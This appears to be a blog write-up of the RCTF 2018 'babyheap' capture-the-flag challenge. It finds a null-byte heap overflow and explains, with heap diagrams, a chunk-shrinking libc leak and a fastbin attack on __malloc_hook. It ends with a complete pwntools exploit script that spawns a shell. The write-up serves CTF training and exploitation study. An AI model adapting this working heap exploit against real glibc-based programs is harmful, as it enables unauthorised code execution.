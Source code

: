 ```yaml
---
layout: post
title: RCTF18 PWN 317
tags: [ctf, pwn, write-up, rctf18, null-byte-heap-overflow, fastbin-attack]
---
```


### Challenge: [babyheap](../ctfs/rctf18/pwn/babyheap/babyheap) [libc](../ctfs/rctf18/pwn/babyheap/libc.so.6)

### Reversing
```bash
$ file ./babyheap
babyheap: ELF 64-bit LSB shared object, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=220fd4e3e91c4ef2413cc0a4c222a0548602662e, stripped
$ checksec ./babyheap
    Arch:     amd64-64-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
```
So its a 64 bit binary and with lot of protections ;D  
Challenge binary provides four options  
**Alloc** - Allows us to allocate maximum size of 0x100 heap chunks and write content in them  
**Show** - Shows content of the heap chunk, provided the index  
**Delete** - Frees heap chunk, provided the index  
**Exit** - Terminates the process  
If we quickly go through the binary in IDA  
```c
__int64 __fastcall sub_BC8(__int64 a1, unsigned int a2)
{
  char buf; // [sp+13h] [bp-Dh]@2
  unsigned int i; // [sp+14h] [bp-Ch]@1
  __int64 v5; // [sp+18h] [bp-8h]@1

  v5 = *MK_FP(__FS__, 40LL);
  for ( i = 0; i < a2; ++i )
  {
    buf = 0;
    if ( read(0, &buf, 1uLL) < 0 )
      sub_B90("read() error");
    *(_BYTE *)(a1 + i) = buf;
    if ( buf == 10 )
      break;
  }
  *(_BYTE *)(i + a1) = 0;
  return *MK_FP(__FS__, 40LL) ^ v5;
}
```
We can clearly spot null byte heap overflow in above function.  

### Exploitation
**Basic Steps**
- Exploit null byte heap overflow by `Shrinking Free Chunks` technique to leak libc base
- Overwrite `__malloc_hook` by using `Fastbin Attack` to get code execution

Now where we go with this? There is a nice paper about `Shrinking Free Chunks` attack [here](https://info.contextis.com/acton/attachment/24535/f-02c8/1/-/-/-/-/Glibc%20Adventures%3A%20The%20forgotten%20chunks.pdf).  This technique basically works by clearing `prev_in_use` bit of the next chunk and crafting `prev_size` so that when freeing next chunk, next chunk will be consolidated with a faked larger chunk creating overlapping on the forgotten heap chunk. For this technique to work, heap chunks of size larger than 0xff is needed.  

Below is the pictorial represention of what we will do  
(smallbin - sb, fastbin - fb)  

**Heap Allocations** --->  
```
sb1 (to overlap fb1 by merging with sb2) | fb1 (to be overlapped) | sb2 (to be null byte overflowed) | fb2 (to prevent consolidation with top chunk)
```
First allocate all four chunks  
```
(0,0x101)("S"* 0xf0)|(0,0x81)("F"* 0x70)|(0,0x101)("S"* 0xf0)|(0,0x41)("F"* 0x30)
```
Free first two  
```
(0,0x101)(addr,addr)("S"* 0xe0)|(0x100,0x80)(0,"F"* 0x60)|(0,0x101)("S"* 0xf0)|(0,0x41)("F"* 0x30)
```
Here we reallocate fb1 to perform null byte overflow into sb2 and changing sb2's `prev_size` to 0x180 and `prev_in_use` bit to 0.  
```
(0,0x101)(addr,addr)("S"* 0xe0)|(0x100,0x80)("F"* 0x70)|(0x180,0x100)("S"* 0xf0)|(0,0x41)("F"* 0x30)
```
Now if we free sb2, it will assume (sb1 + fb1) as one chunk and will be consolidated with (sb1 + fb1). And fb1 will be forgotten.  
```
(0,0x281)(addr,addr)("S"* 0xe0)|(0x100,0x80)("F"* 0x70)|(0x180,0x100)("S"* 0xf0)|(280,0x40)("F"* 0x30)
```
Now if we reallocate 0x100 byte sb1, 0x280 chunk will be broken into (0x100 + 0x180). 0x100 part will be *used* as sb1. 0x180 part will be free (having `main_arena` addresses) and overlapping our fb1.  
```
(0,0x101)("S"* 0xf0)|(0,0x181)(addr,addr)("F"* 0x60)|(0x180,0x100)("S"* 0xf0)|(180,0x40)("F"* 0x30)
```
 Now if we execute `Show` for fb1 which is being overlapped by newly formed (0x180) free chunk, it will leak the address of `main_arena`. From this address we can determine libc base address.  

 Now we need to find a way to get code execution. We can do it by fastbin attack. To understand fastbin attack [how2heap](https://github.com/shellphish/how2heap/blob/master/fastbin_dup_into_stack.c) by shellphish, I find very useful.  

 Basically the attack works by forcing malloc to return a pointer twice. First time when malloc returns the pointer we can write 8 byte address in it, of a fake chunk somewhere in memory. Now when the second time you return same pointer again the address of fake chunk gets added in fastbin free list. Then you can request the fake chunk using malloc and write to it.  

 Here we will be targeting `__malloc_hook`, we will create a fake chunk at (`__malloc_hook` - 0x23) and make that address returned by malloc so that we can overwrite `__malloc_hook` by `oneshot` gadget.  

 We create fake chunk at (`__malloc_hook` - 0x23) because we need this fake chunk to have `size` metadata that is in fastbin limit. In our case it will be 0x7f.  

 To do this, first we free sb1 again to get 0x280 chunk.  
 ```
 (0,0x281)(addr,addr)("S"* 0xe0)|(0,0x181)(addr,addr)("F"* 0x60)|(0x180,0x100)("S"* 0xf0)|(280,0x40)("F"* 0x30)
 ```
Now we will have (sb1 + fb1 + sb2) consolidated. Now what we want is to get pointer to overlapped chunk in one more `index` so that we can free it twice. To get that we can split 0x280 chunk in (0x20 + 0x70 + 0x70 + 0x70 + 110). Here third 0x70 will have the same pointer as the overlapped chunk (fb1). Rest is the typical fastbin attack.  

[Here](../ctfs/rctf18/pwn/babyheap/sploit.py) is the exploit code with comments or below :D  
```python
from pwn import *
def alloc(size, payload):
        r.sendlineafter('choice: ','1')
        r.sendlineafter('please input chunk size: ',str(size))
        r.sendafter('input chunk content: ',payload)
def show(index):
        r.sendlineafter('choice: ','2')
        r.sendlineafter('please input chunk index: ',str(index))
def delete(index):
        r.sendlineafter('choice: ','3')
        r.sendlineafter('please input chunk index: ',str(index))
r = process('./babyheap', env={"LD_PRELOAD":"./libc.so.6"})
#r = remote('babyheap.2018.teamroir.cn',3154)
libc = ELF('./libc.so.6')
alloc(0xf0,'A' * 0xf0)#sb1
alloc(0x70,'A' * 0x70)#fb1
alloc(0xf0,'A' * 0xf0)#sb2
alloc(0x30,'A' * 0x30)#fb2 #3
delete(0)
delete(1)
# null byte heap overflow
# prev_size = 0x180
# prev_in_use = 0
alloc(0x78,'B' * 0x70 + p64(0x180))#0
# first fastbin gets overlapped
delete(2)
alloc(0xf0,'A' * 0xf0)
# libc leak
show(0)
r.recvuntil('content: ')
libc_base = u64(r.recv(6) + "\x00" * 2) - libc.symbols['__malloc_hook'] - 0x68
log.info("libc : " + hex(libc_base))
# fastbin Attack
# get the 0x280 byte chunk
delete(1)
# allocate 0x20 byte chunk to fill buffer
alloc(0x10, 'A' * 0x10)#1
alloc(0x60, 'B' * 0x60)#2
alloc(0x60, 'C' * 0x60)#4
# below chunk will be placed on same address as overlapped chunk
alloc(0x60, 'D' * 0x60)#5
# free overlapped chunk address twice
delete(5)
delete(4)
delete(0)
fake_chunk = libc_base + libc.symbols['__malloc_hook'] - 0x23
oneshot = libc_base + 0x4526a
alloc(0x60, p64(fake_chunk) + p64(0) + "H"*0x50)
alloc(0x60,'A' * 0x60)
alloc(0x60,'A' * 0x60) # fake __malloc_hook chunk gets added in free list
# overwrite __malloc_hook with oneshot
alloc(0x60,'A' * 0x13 + p64(oneshot) + "\n")
# trigger oneshot
r.sendlineafter("choice: ", "1")
r.sendlineafter(": ", "1")
r.interactive()
```
